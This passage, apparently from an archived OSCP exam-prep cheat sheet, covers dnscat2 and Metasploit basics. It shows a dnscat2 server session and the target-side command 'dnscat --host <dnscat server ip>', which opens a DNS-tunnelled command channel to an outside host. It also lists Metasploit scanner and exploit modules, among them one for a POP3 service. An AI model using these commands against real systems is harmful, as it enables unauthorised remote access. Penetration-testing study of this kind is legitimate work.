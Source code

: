         </div>

    *   Run dnscat2:

            ruby ./dnscat2.rb  
            dnscat2> New session established: 1422  
            dnscat2> session -i 1422

    *   Target Machine:  
        [_https://downloads.skullsecurity.org/dnscat2/_](http://web.archive.org/web/20171113221652/https://downloads.skullsecurity.org/dnscat2/)

        [_https://github.com/lukebaggett/dnscat2-powershell/_](http://web.archive.org/web/20171113221652/https://github.com/lukebaggett/dnscat2-powershell/)

        `dnscat --host <dnscat server ip>`

# [](#the-metasploit-framework)The Metasploit Framework

*   See [_Metasploit Unleashed Course_](http://web.archive.org/web/20171113221652/https://www.offensive-security.com/metasploit-unleashed/) in the Essentials

*   Search for exploits using Metasploit GitHub framework source code:  
    [_https://github.com/rapid7/metasploit-framework_](http://web.archive.org/web/20171113221652/https://github.com/rapid7/metasploit-framework)  
    Translate them for use on OSCP LAB or EXAM.

*   Metasploit

    *   MetaSploit requires Postfresql

        `systemctl start postgresql`

    *   To enable Postgresql on startup

        `systemctl enable postgresql`

*   MSF Syntax

    *   Start metasploit

        `msfconsole`

        `msfconsole -q`

    *   Show help for command

        `show -h`

    *   Show Auxiliary modules

        `show auxiliary`

    *   Use a module

            use auxiliary/scanner/snmp/snmp_enum  
            use auxiliary/scanner/http/webdav_scanner  
            use auxiliary/scanner/smb/smb_version  
            use auxiliary/scanner/ftp/ftp_login  
            use exploit/windows/pop3/seattlelab_pass

